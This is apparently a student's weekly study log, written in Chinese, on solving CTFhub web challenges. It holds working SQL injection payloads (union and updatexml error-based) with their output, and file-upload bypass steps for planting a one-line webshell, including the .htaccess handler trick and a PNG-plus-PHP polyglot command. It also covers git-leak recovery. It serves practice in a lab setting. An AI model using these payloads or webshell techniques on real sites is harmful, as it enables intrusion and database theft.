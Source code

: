 # `<font style="color:rgb(38, 38, 38);">`完成事项 `</font>`

+ 学习CTFhub中的web项，信息泄露的所有题、弱口令、sql注入（整数、字符、报错）、文件上传（除00截断、双写后缀）。
+ 学习了git的基本使用方法。

# `<font style="color:rgb(38, 38, 38);">`下周待做事项 `</font>`

+ 继续学习web项，将web题尽量做完。

# `<font style="color:rgb(38, 38, 38);">`本周学习的知识分享 `</font>`

#### git泄露

使用githack，获取服务器的git内容。使用 `git log`可以查看版本的历史记录。找到 `ADD FLAG`对应的 `commit_id`，使用 `git reset --hard commit_id`命令回退到ADD FLAG版本，cat flag。

##### stash

使用 `git stash list` 显示保存进度的列表，发现有 stash，使用 `git stash pop` 恢复最新的进度到工作区，这个文件的内容就是 flag。

##### .svn&.hg

都可以使用dvcs-ripper工具。

#### 弱口令

使用burpsuit字典直接爆破。

#### SQL注入

group_concat()返回结果为连接参数产生的字符串。

`information_schema.columns where table_schema='库名' and table_name='表名'`

##### 整数型注入

`?id=0 union select 1,database()`回显 `ID: 1 Data: sqli`可得数据库为sqli。

查询sqli库中所有表： `?id=0 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli' `回显 `ID: 1 Data: flag,news`可得有一个flag的表。

查询flag表中有什么字段： `?id=-1 union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli'`回显 `ID: 1 Data: flag,id,data`可得有一个flag字段。

查询flag字段内容：`?id=-1 union select 1,group_concat(flag) from flag`回显 `ID: 1 Data: ctfhub{a3103d63f3e01ccb9d4fa663}`

##### 字符型注入

与整数型注入类似，只需在 `id=-1`后添加后引号将引号闭合，再在payload最后加上 `#`注释掉原本最后的后引号即可

##### 报错注入

查询库名：`1 and updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1)#`

查询库中所有表：`1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) #`

查询flag表中所有字段：`1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='flag'),0x7e),1) #`

查询flag：`1 and updatexml(1,concat(0x7e,(select group_concat(flag) from sqli.flag)),1) #`

#### 文件上传

##### 无验证

直接上传一句话木马，然后用蚁剑连接即可。

##### 前端验证

直接F12禁用js，上传一句话木马。

##### .htaccess

上传一个.htaccess文件内容 

```
<FilesMatch "\.jpg">

 SetHandler application/x-httpd-php

</FilesMatch>
```

，再上传一个jpg后缀的一句话木马即可。

##### MIME绕过

burp抓包上传一个 `.jpg`后缀的一句话木马，再在burp中把 `filename`改回.php后缀，上传即可。

##### 文件头检查

cmd中使用命令将png文件和一句话木马结合在一起 `copy .\QQ20241017-200855.png/b + .\shell.php mm.png `生成mm.php。再用burp抓包上传mm.php，再在burp中把 `filename`改回.php后缀，上传即可。

# `<font style="color:rgb(38, 38, 38);">`本周学习总结 `</font>`

每一次做题的同时写WP，可以减少后期补的痛苦。

